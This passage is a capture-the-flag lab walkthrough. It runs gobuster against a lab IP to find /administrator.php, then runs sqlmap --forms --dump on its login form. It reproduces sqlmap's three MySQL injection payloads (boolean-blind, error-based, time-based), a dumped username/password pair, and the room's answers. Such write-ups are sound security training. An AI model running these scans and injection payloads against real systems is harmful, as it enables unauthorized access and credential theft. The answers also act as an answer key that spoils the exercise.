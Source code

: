 run: `gobuster dir -u 10.10.16.135 -w "path/to/wordlist.txt" -x "html,php,txt"`

It was around 10% way of searching when it got this!

### 1.  What is the name of the important file on the server?
/administrator.php

## 4. Web Exploitation
login form -> sql injection?

run `sqlmap -u http://10.10.16.135/administrator.php --forms --dump`

-u: url

--forms: gets parameters from `form` element in the page

--dump: gets data once SQLI(SQLInjection) is found


We now get this from sqlmap:
1. 3 kinds of blinds
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=gbXk' RLIKE (SELECT (CASE WHEN (1352=1352) THEN 0x6762586b ELSE 0x28 END))-- MeOd&password=

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=gbXk' AND GTID_SUBSET(CONCAT(0x71716b6b71,(SELECT (ELT(9508=9508,1))),0x716b6a7171),9508)-- BmZK&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=gbXk' AND (SELECT 6145 FROM (SELECT(SLEEP(5)))TqbZ)-- sWNA&password=
---
```
2. Database entries 

Database: users

Table: users

[1 entry]

| password | username |
| - | - |
| secretpass | pingudad |

### 1. What is the admin username?
pingudad
